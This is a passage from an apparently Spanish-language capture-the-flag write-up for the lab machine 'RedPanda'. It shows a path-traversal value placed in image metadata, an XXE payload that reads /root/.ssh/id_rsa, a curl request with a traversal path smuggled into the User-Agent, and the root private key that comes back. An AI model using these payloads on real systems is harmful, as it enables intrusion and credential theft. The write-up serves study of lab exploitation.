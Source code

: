 ```bash wrap=false intitle='Modificamos los metadatos de la imagen'
Y Resolution                    : 1
Resolution Unit                 : None
Artist                          : ../../../../../../tmp/zelpro
Y Cb Cr Positioning             : Centered
Image Width                     : 1080
Image Height                    : 1080
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:4:4 (1 1)
Image Size                      : 1080x1080
Megapixels                      : 1.2
```

```bash wrap=false intitle='Generamos el archivo XML y le damos permisos completos'
woodenk@redpanda:/tmp$ touch zelpro_creds.xml
woodenk@redpanda:/tmp$ chmod 777 zelpro_creds.xml
```

```xml wrap=false intitle='Le asignamos el contenido'
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///root/.ssh/id_rsa"> ]>
<credits>
  <author>&xxe;</author>
  <image>
    <uri>/img/greg.jpg</uri>
    <views>1</views>
  </image>
  <image>
    <uri>/img/hungy.jpg</uri>
    <views>0</views>
  </image>
  <image>
    <uri>/img/smooch.jpg</uri>
    <views>0</views>
  </image>
  <image>
    <uri>/img/smiley.jpg</uri>
    <views>3</views>
  </image>
  <totalviews>4</totalviews>
</credits>
```

```bash wrap=false intitle='Enviamos la solicitud maliciosa'
curl -s -X GET -A "prueba||/../../../../../../tmp/zelpro.jpg" http://10.10.11.170:8080/
```

```xml wrap=false intitle='Conseguimos el id_rsa'
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo>[
<credits>
  <author>-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACDeUNPNcNZoi+AcjZMtNbccSUcDUZ0OtGk+eas+bFezfQAAAJBRbb26UW29
ugAAAAtzc2gtZWQyNTUxOQAAACDeUNPNcNZoi+AcjZMtNbccSUcDUZ0OtGk+eas+bFezfQ
AAAECj9KoL1KnAlvQDz93ztNrROky2arZpP8t8UgdfLI0HvN5Q081w1miL4ByNky01txxJ
RwNRnQ60aT55qz5sV7N9AAAADXJvb3RAcmVkcGFuZGE=
-----END OPENSSH PRIVATE KEY-----</author>
  <image>s
    <uri>/img/greg.jpg</uri>
    <views>1</views>
  </image>i
  <image>s
    <uri>/img/hungy.jpg</uri>
    <views>0</views>
```